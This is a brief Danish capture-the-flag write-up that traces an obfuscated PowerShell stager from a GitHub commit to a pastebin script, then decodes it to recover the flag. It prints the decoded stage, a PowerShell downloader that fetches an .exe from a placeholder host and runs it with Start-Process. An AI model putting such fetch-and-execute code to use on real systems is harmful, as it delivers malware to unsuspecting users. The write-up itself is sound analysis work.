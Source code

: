 1. Googler "N1ss3b4nd3n"
2. Finder GitHub: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
3. kigger i commits på README.md
4. Commit [48fb3b4](https://github.com/N1ss3b4nd3n/N1ss3b4nd3n/commit/48fb3b4b295eb7486289e21efa8dbe84fecabe31) har dette pastebin link: https://pastebin.com/raw/CiZTV3BA
5. Downloader pastebin siden som PowerShell .ps1 fil og
erstatter `Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))`
med `echo [System.Text.Encoding]::UTF8.GetString($script)`

6. Så får jeg en lang liste af tal som jeg gemmer som "chars.txt"
7. Jeg skriver app.py (Python) hvor jeg looper gennem alle tal'ne fra "chars.txt" og
bruger Pythons "chr()" function til at lave tal'ne om til bogstaver fordi de matcher unicodes.

8. app.py printer dette ud:
```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```
i "$fileUrl" kan man se at GET parameteret "token" indenholder flaget -> "NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"

Flag: NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}